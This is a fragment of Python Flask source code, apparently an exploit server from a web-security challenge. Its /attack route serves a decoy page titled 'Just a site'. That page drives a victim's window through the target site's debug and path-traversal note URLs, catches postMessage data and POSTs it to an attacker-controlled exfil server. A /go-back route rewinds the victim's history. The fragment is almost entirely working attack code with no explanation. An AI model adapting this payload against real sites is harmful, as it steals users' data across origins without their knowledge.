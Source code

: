 ```
                </form>
            </body>
        </html>
    """

@app.route("/attack")
def attack():
    payload_id = os.environ["payload_id"]
    print(payload_id)
    hosting_id = request.args.get("payload_host_id")
    print(hosting_id)
    website_contents = """
document.write(window.location.href);
function sleep() {
    return new Promise(resolve => setTimeout(resolve, 1000));
}
window.addEventListener(
    'message',
    (event) => {
        console.log(event.data)
        fetch('"""+exfil_server+"""', {
            method: 'POST',
            body: event.data
        });
    },
    false
);
"""+f"""
var the_window = open('{BASE_URL}/{DEBUG_URL}/{payload_id}');
"""+"""
const start = async function() {
"""+f"""
    await sleep();
    the_window.location = '{BASE_URL}/{DEBUG_URL}/{hosting_id}';
    await sleep();
    the_window.location = '{BASE_URL}/note/some?id=../{DEBUG_URL}/{payload_id}';
    await sleep();
    the_window.location = '{BASE_URL}/note/some?id=../{DEBUG_URL}/{hosting_id}';
"""+"""
    await sleep();
    the_window.location = `${location.origin}/go-back`;
}
start();
    """
    return f"""
        <!DOCTYPE HTML>
        <html>
            <head>
                <title>Just a site</title>
            </head>
            <body>
                <script type='text/javascript'>
                {website_contents}
                </script>
            </body>
        </html>
    """

@app.route("/go-back")
def go_back():
    return "<!DOCTYPE HTML><html><body><script type='text/javascript'>console.log('hi');window.history.go(-3)</script></body></html>"

```